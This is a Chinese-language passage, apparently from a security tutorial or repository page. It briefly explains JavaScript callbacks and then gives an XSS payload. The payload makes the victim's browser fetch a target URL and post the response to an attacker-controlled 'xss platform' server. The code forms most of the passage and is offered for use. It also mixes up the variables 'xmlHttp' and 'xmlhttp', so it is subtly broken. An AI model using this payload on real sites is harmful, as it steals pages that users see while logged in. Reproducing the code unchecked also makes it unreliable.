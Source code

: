 对于异步方法，调用一旦开始，方法调用就会立即返回。为了将请求结果回传至服务器，这里可以通过回调函数callback实现

回调函数callback的简单理解：函数可以作为参数在另一个函数中被调用

例如如下代码：

```
function test1(callback)
{ 
    a=1     
    callback(a)
}
test1(function(x){console.log(x)})
```

执行代码后将在控制台输出1

综上，向指定url发送GET数据包，将请求结果回传至服务器可使用两种方法：

方法1：同步方法

```
function initialize() {
    var xmlHttp;
    if (window.XMLHttpRequest)
    {// code for IE7+, Firefox, Chrome, Opera, Safari
        xmlhttp=new XMLHttpRequest();
    }
    else
    {// code for IE6, IE5
        xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");
    }
    return xmlHttp;
}
function getSynchronous(url) {
    var xmlHttp=initialize();
    xmlhttp.open("GET",url,false);
    xmlhttp.send();
    return xmlhttp.responseText;
}
function postSynchronous(url, data, type) {
    var xmlHttp=initialize();
    xmlhttp.open("POST",url,false);
    xmlhttp.setRequestHeader("Content-type",type);
    xmlhttp.send(encodeURIComponent(data));
    return xmlhttp.responseText;
}
var xmlhttp;
var serverUrl = "https://<xss platform ip>/data";
var targetUrl = "<target url>" + "?t=" + Math.random();
responseData=getSynchronous(targetUrl);
postSynchronous(serverUrl,"location=" + targetUrl + ";data=" + responseData, "application/x-www-form-urlencoded");
```

